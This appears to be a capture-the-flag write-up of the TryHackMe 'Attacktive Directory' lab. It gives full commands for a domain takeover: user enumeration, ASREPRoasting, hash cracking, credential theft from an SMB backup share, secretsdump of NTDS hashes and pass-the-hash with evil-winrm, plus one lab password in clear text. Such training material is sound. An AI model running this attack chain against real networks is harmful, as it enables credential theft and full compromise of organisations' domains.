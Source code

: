 ```yaml
---
layout: post
title: "Attacktive Directory"
date: 2022-10-06
categories: [Tryhackme, Medium-THM]
tags: [kerbrute, ASREPRoasting, smbclient, evil-winrm, impacket]
image: ../../assets/img/posts/attacktivedirectory.png 

---
```


## Description

99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

|**Room**|[Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[tryhackme](https://tryhackme.com/p/tryhackme)|

---

We will solve this room from THM, [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.65.231 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187017396-73b84f2e-517c-4836-b6c2-5a6eed4bb78f.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
sudo nmap -sCVS -p53,80,88,135,139,445,389,464,593,636,3269,3268,9389,47001 10.10.65.231 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187017414-6656d00d-a4e3-430d-bdd4-bbdc6ee22196.png)

Result scan shows that port 53 is running DNS service, port 80 is running MS IIS server, port 88 is running kerberos service, port 139,445 is running SMB service, port 389,3268 is running LDAP. 

To avoid DNS resolving issues, better to add domain name in /etc/hosts file at start,

```bash
echo "10.10.25.31    spookeysec.local" >> /etc/hosts
```

Now, we can use **kerbrute** tool to enumerate users from kerberos service (Kerberos is a key authentication service within Active Directory),

```bash
kerbrute userenum --dc spookysec.local -d "spookysec.local" userlist.txt -t 100 -o kerbrute.log
```

![image](https://user-images.githubusercontent.com/67465230/194377172-b9675724-f5f4-45e7-a566-b84fa2b06c15.png)

As the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** 

>ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

Let's retrieve Kerberos Tickets using [Impacket](https://github.com/SecureAuthCorp/impacket) tool called **GetNPUsers.py**, which will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

Let's take a look at help option on how we can run this tool,

```bash
python3 /home/kali/impacket/examples/GetNPUsers.py
```

![image](https://user-images.githubusercontent.com/67465230/187017433-6fac2df9-e7f3-4365-a537-c91d74e96e45.png)

Now, since we have 2 accounts that we could potentially query a ticket from. So let's use **svc-admin** username to query a ticket from with no password,

```bash
python3 /home/kali/impacket/examples/GetNPUsers.py -dc-ip 10.10.25.31 spookysec.local/svc-admin -no-pass
```

![image](https://user-images.githubusercontent.com/67465230/194377270-a9904ef2-a759-45d8-84c8-592635a22fcd.png)

we got the hash, YAY!!

Looking at the Hashcat Examples Wiki page, the hash type we retrieve from the KDC is **Kerberos 5 AS-REP etype 23** (mode 18200). 

Let's use hashcat to crack this hash, 

```bash
hashcat.exe -m 18200 crack.txt rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/194377397-fa30da8b-8205-4ec9-82b0-772bcfab1cd8.png)

Now that we got the credentials for svc-admin user, we can try to list shares from SMB service using same user (svc-admin),

```bash
smbclient -L \\\\10.10.25.31\\ -U "*********"
```

![image](https://user-images.githubusercontent.com/67465230/194377477-9378496d-86a9-465d-9d8f-e8f41cc29ca0.png)

we can see that there is a backup shares lying around on the network. 

Let's get our hands dirty by getting into the share,

```bash
smbclient \\\\10.10.25.31\\backup -U "*********"
```

![image](https://user-images.githubusercontent.com/67465230/194377591-9efa6674-ec39-4f17-a11c-8487441e199d.png)

enumerating the share and we see the backup_credentials.txt file.

Let's download the file on our system,

```bash
get backup_credentials.txt
```

![image](https://user-images.githubusercontent.com/67465230/187017484-e88b598d-6d26-4979-a7a2-c54c1e7bd894.png)

Reading the content of the file and we see the gibberish data,

![image](https://user-images.githubusercontent.com/67465230/194377772-01abfb48-f136-4e2e-b407-efff18eb5f97.png)

To decode this gibberish data, we will use [CyberChef](https://gchq.github.io/CyberChef/),

![image](https://user-images.githubusercontent.com/67465230/194377849-d428b236-2c99-414f-ac5c-5d122ddbb28c.png)

Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets me thinking, What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes.

Knowing this, let's use another tool within Impacket called **secretsdump.py**, which will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. By exploiting this, we will effectively have full control over the AD Domain.

Let's look at how we can run this tool,

```bash
python3 /home/kali/impacket/examples/secretsdump.py
```

![image](https://user-images.githubusercontent.com/67465230/187017507-84a4b9ff-5405-4d6c-901c-c72ada6a90d2.png)

Now that we know how to run this tool, we can run the tool and dump the secrets (hashes),

```bash
python3 /home/kali/impacket/examples/secretsdump.py -dc-ip 10.10.25.31 backup:backup2517860@spookysec.local
```

![image](https://user-images.githubusercontent.com/67465230/194378123-a8577986-5df2-456d-b9aa-57c037427045.png)
![image](https://user-images.githubusercontent.com/67465230/194378134-deedcee3-6cdf-42b5-9cc1-7e01215968df.png)

secretsdump.py uses DRSUAPI method to dump **NTDS.DIT** (a database that contains all of the information of an Active Directory domain controller as well as password hashes for domain users).

By this, we now have Administrators NTLM hash. Now, since we have Administrator user hash, we can perform **Pass The Hash** attack, which will allow us to authenticate as the user without the password. 

For this attack, we need to use **evil-winrm** tool. It doesn't come pre-installed in kali but we can install it using,

```bash
sudo gem install evil-winrm
```

Now, we can see the usage of this tool,

```bash
evil-winrm -h
```

![image](https://user-images.githubusercontent.com/67465230/187017532-51070490-54e0-47d9-9b6f-118a59e8e6ce.png)

Now, after checking the tool usage, we can commence the attack,

```bash
evil-winrm -i 10.10.25.31 -u Administrator -H ********************************
```

![image](https://user-images.githubusercontent.com/67465230/187017543-7b021fd7-d805-4ca9-b703-026c3820ba0e.png)

we'll get the Administrator user access!!

Now, navigating to svc-admin, backup & Administrator user's Desktop directory, we can find the respective user flags.
